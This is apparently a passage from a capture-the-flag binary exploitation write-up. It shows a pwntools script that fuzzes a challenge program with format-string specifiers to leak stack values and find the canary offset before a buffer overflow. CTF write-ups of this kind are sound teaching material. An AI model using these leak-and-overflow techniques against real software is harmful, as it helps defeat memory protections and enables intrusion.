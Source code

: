 and now `CTRL ^ C` will work and we can inspect the memory as we would normally

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

#### info leaks

the first thing I did is to fuzz for info leaks, primarily to get the offset to canary as we need it in order to successfully execute our buffer overflow.&#x20;

```python
def fuzz():
    context.log_level = 'warning'
    for idx in range(1, 30):
        io = initialize()

        io.sendline(b'1')
        io.sendlineafter(b'of?', str(1337).encode())
        io.sendlineafter(b'appendage?', f'%{idx}$p'.encode())
        io.recvuntil(b'to: ')
        log.warning(f"[{idx}] = {io.recvline().strip()}")

        io.close()
```
